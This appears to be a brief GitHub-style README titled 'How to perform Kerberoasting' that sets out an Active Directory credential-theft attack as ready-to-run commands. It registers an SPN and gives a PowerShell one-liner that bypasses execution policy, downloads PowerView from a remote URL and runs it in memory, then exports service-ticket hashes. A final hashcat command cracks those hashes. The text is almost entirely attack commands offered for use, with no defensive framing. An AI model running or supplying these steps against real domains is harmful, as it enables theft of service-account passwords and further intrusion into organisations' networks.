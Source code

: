 How to perform Kerberoasting.

Register SPN 
--------------
setspn -s http/dc.lab:80 <user_name>

Perform Kerberosting using Powerview Powershell script
--------------------------------------------------------
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash.txt"


Crack the hash
---------------

hashcat64.exe -m 13100 kerb-Hash.txt dictionary_file.txt
